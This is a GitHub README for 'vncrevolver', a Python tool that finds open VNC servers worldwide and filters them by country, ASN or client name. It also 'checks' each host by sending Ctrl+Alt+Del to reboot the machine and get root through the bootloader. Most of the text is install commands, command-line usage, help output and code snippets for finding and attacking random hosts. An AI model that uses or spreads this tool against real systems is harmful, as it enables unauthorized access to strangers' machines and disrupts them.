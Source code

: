 # VNCREVOLVER
## Automate search for open VNC servers
![vnc](https://github.com/cristiancmoises/vncrevolver/assets/86272521/18f2c15d-2232-47f4-b713-093af67daa7a)

# Table Of Contents

* [`Dependencies`](#required)
* [`Install`](#install)
* [`Features`](#features)
* [`Usage`](#commands)


## Required:
     pip install pydantic 
     pip install asyncvnc 
     pip install aiohttp

# Install:
    git clone https://github.com/cristiancmoises/vncrevolver
    cd vncrevolver

| # Features:                                                                         |
|------------------------------------------------------------------------------------|
| 🌎  _Search for many open Vnc Servers around the world_                             |
| 📍 _Filter by country_                                                             |
| 🔢   _List more than one_                                                            |
| 🖥️  _List by Client name_                                                            |
| ✅  _Checks them for vulnerabilities by rebooting the machine via Ctrl+ALT+DEL, obtaining root access through the operating system bootloader easyly._ |

# Commands
## BASIC:
    python -m vncrevolver
    
## DEEP SEARCH:
    python -m vncrevolver --clientname ubuntu --count 10

## CTRL + ALT + DEL  | CHECK
    python -m vncrevolver --clientname ubuntu --count 10 --check_crt_alt_del

## CHECK A SPECIFIC ADDRESS:
    python -m vncrevolver --check_crt_alt_del 123.12.1.23:5901

> # START ME UP!   
    $ python -m vncrevolver --help

    usage: vncrevolver [-h] [--clientname CLIENTNAME] [--country COUNTRY] [--asn ASN]  [--count COUNT] [--check_crt_alt_del [CHECK_CRT_ALT_DEL]] [--show_failed] [--screen_delay SCREEN_DELAY]

    optional arguments:
    -h, --help            show this help message and exit
    --clientname CLIENTNAME
                        Filter by client name, note that it is case-sensitive!
    --country COUNTRY     Filter by ISO 3166-1 alpha-2 country code
    --asn ASN             Filter by ASN
    --count COUNT         Number of VNCs to find
    --check_crt_alt_del [CHECK_CRT_ALT_DEL]
                        If you specify this parameter without a value, only those VNCs from the search that pass the ctrl_alt_del check will be returned. If a value is passed, it must be a VNC
                        address that will be checked against ctrl_alt_del.
    --show_failed         Return VNCs that failed the ctrl_alt_del check
    --screen_delay SCREEN_DELAY
                        Delay between taking two screenshots in milliseconds

    If you specify one of the filtering parameters, a search by fitration will be launched, otherwise a search for random VNCs will be launched. If you specify the --count option, the required VNC
    number will be found. The number of found VNCs may be less than the --count parameter when searching with filtering.

> # Use filters:

    from typing import List
    from vncrevolver.search import VNC, search_filter

    hosts: List[VNC] = await search_filter(clientname='ubuntu')
    for vnc in hosts:
    print(vnc.ip, vnc,port)

> # Random Search
    from vncrevolver.search import VNC, search_random
    vnc: VNC = await search_random()
    print(vnc.ip, vnc.port)
  
> # Ctrl + ALT + DEL - CHECK UP!
    from vncrevolver.search import VNC, search_random
    from vncrevolver.vnc import check_crt_alt_del
    vnc: VNC = await search_random()
    print(await check_crt_alt_del(vnc.ip, vnc.port))

   
